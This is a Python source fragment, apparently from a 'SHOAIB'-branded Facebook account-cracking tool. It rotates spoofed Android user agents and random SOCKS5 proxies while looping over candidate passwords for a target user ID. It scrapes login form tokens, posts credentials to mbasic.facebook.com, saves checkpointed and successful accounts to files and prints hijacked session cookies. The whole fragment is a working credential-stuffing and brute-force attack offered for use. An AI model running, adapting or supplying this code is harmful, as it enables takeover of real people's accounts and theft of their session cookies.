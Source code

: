 'Mozilla/5.0 (Linux; Android 4.1.2; Nokia_XL Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.82 Mobile Safari/537.36',
'NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+',
'Mozilla/5.0 (Linux; Android 10; Nokia 5.1 Plus Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, seperti Gecko) Versi/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36',
'Mozilla/5.0 (Linux; Android 10; JNY-LX1; HMSCore 6.6.0.312) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 10; ART-L29; HMSCore 6.6.0.311) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36',
'Mozilla/5.0 (Linux; Android 10; ELS-NX9; HMSCore 6.6.0.312) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 8.1.0; jhs561 Build/GIADA.eng.zc.20200922.153858; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/81.0.4044.138 Safari/537.36',
'Mozilla/5.0 (Linux; Android 12; SM-G991U) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 7.1.2; 17MB150WB Build/NZH54D; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/72.0.3626.121 Safari/537.36'
])
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks5://'+nip}
			ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://mbasic.facebook.com/login.php?skip_api_login=1&api_key=141595129234543&kid_directed_site=0&app_id=141595129234543&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv5.0%2Fdialog%2Foauth%3Fclient_id%3D141595129234543%26redirect_uri%3Dhttps%253A%252F%252Fibispaint.com%252Flogin.jsp%26display%3Dpopup%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3De8184574-7e8f-41f3-b6d5-47a6c13f68fd%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fibispaint.com%2Flogin.jsp%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://developers.facebook.com/tools/debug/accesstoken/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r{N}╭───[SHOAIB-CP]\n└──╭➣ EMAIL: {k}{idf}{N}\n └──╭➣ PASSWORD: {k}{pw}{N}\n   └───➣{m} {ua}{N}\n')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{N}╭───[SHOAIB-OK]\n└──╭➣ EMAIL:  {H}{idf}{N}\n  └──╭➣ PASSWORD:  {H}{pw}{N}\n  └──╭➣ Cokkie: {H}{kuki} ')